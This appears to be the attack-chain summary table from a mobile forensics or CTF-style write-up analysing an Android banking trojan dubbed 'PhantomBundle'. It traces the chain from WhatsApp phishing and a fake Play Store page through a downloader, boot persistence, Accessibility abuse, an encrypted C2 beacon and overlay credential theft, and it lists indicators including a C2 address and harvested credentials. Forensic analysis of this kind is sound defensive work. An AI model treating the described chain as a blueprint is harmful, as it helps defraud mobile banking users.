| Step | Phase | Action & Technique | Evidence / Artifacts |
| :---: | :--- | :--- | :--- |
| **1** | **Initial Phishing** | Attacker contacts victim via WhatsApp (`+201552869660`) pushing an urgency lure (*"Spots are extremely limited..."*). | `msgstore.db`<br>`+201552869660` |
| **2** | **Spoofed App Store** | Victim visits a fake Google Play page (featuring reviews by *"Lara Croft"*) on 2026-02-21 03:35:41. | Chrome `History`<br>Cache `.mhtml` |
| **3** | **Stage-1 Downloader** | Victim downloads and installs `subhubpro.apk`, which decodes resource `lorem_ipsum` to fetch `icon.png` from GitHub Releases. | `subhubpro.apk`<br>GitHub link |
| **4** | **Stage-2 Deployment** | Downloader drops and installs `com.andorid.systemui`. Boot persistence is established via `DownloadFiles` receiver (`BOOT_COMPLETED`). | `base.apk`<br>`DownloadFiles` |
| **5** | **Privilege & Concealment** | Malware gains Accessibility permissions (`C1AccessibilityService`) and launches a foreground service titled *"System Update"* to avoid OS termination. | `C1AccessibilityService`<br>Notification "System Update" |
| **6** | **Encrypted C2 Channel** | Malware establishes periodic beaconing to `http://107.189.13.21:8080/api` using AES-CTR with a dynamic key from `secure_prefs.xml`. | `a.java` / `e.java`<br>`secure_prefs.xml` |
| **7** | **Surveillance & Panic Trigger** | C2 issues command `71` to capture screenshots via `MediaProjection`, then command `73` pushing a fake alert (*"Unauthorized transfer attempt: USD 2,000..."*). | `ScreenshotCaptureActivity`<br>Decrypted packet payload |
| **8** | **Credential Harvesting** | As the victim reacts, C2 triggers command `74` displaying a fake overlay portal (*"NEXT GENERATION BANKING"*). Credentials (`Ali209714:Ali_3691Pass5`) are harvested and exfiltrated (MITRE `T1417.002`). | `LoginActivity`<br>`Ali209714:Ali_3691Pass5` |

In summary, PhantomBundle demonstrates a textbook Android banking trojan attack: combining psychological social engineering (urgency hooks and financial panic lures) with Accessibility Service abuse and overlay injection to completely bypass mobile security boundaries.
